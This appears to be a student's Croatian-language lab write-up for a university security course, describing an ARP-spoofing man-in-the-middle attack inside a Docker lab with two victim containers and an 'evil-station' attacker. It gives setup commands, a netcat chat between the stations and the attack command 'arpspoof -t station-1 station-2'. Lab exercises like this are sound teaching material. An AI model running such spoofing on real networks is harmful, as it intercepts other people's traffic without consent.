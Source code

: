 # 1. Laboratorijska vjezba(Man-In-The-Middle)

**Zadatak**

Realizirati *man in the middle* napad iskorištavanjem ranjivosti ARP protokola. 

Student će testirati napad u virtualiziranoj Doker mreži koju čine 3 virtualizirana Docker računala (eng. *container*): dvije *žrtve* `station-1` i `station-2` te napadač `evil-station`.

U ovo vježbi realiziramo napad ARP spoofing tako što narušimo integritet neke  žrtve (**station-1** ili **station-2**).

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled.png)

**Kreiranje okruženja**

1.Korak kloniranje:

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

2.Korak mijenjanje repozitorija:

```bash
$ cd SRP-2021-22/arp-spoofing
```

3.Korak running bash script:

```bash
$ ./start.sh
$ ./stop.sh
```

**Lista kontenjera**

```bash
$ docker ps
```

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%201.png)

**Aktivacija dockera**

```bash
$ docker exec -it "Station name" bash
```

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%202.png)

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%203.png)

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%204.png)

**Spajanje**

```bash
$ netcat -lp 8000
potom
$ netcat station-2 8000
```

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%205.png)

**NAPAD**

```bash
$ arpspoof -t station-1 station-2
```

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%206.png)

```bash
 $ tcpdump-izvrsenje napada
```

![Untitled](1%20Laboratorijska%20vjezba(Man-In-The-Middle)%20b3389a9fc1d7433e9279baebfded3427/Untitled%207.png)